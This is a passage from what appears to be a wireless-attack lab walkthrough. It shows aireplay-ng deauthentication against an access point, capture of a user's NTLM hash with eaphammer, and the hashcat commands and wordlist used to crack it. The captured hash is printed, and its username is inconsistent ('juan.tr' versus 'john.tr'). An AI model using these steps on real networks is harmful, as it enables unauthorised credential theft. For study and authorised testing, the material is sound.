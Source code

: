 ![](image60.png)
Illustration 58. Running aireplay-ng against AP 2.

After a few minutes, you get the NTLM hash of john in the eaphammer window:

![](image61.png)
Illustration 59. Obtaining the NTLM hash.

The NTLM to crack with hashcat is:
```sh
juan.tr::::549dc53acaaffe5194a685758b801dec5e01400ba17f9e27:4f9c7e009fdd25ae
```

To crack it, you run hashcat:
```sh
echo 'john.tr::::549dc53acaaffe5194a685758b801dec5e01400ba17f9e27:4f9c7e009fdd25ae' > hash # hash is saved in the "hash" document
hashcat hash rockyou-top100000.txt # Hash is cracked with hashcat
```
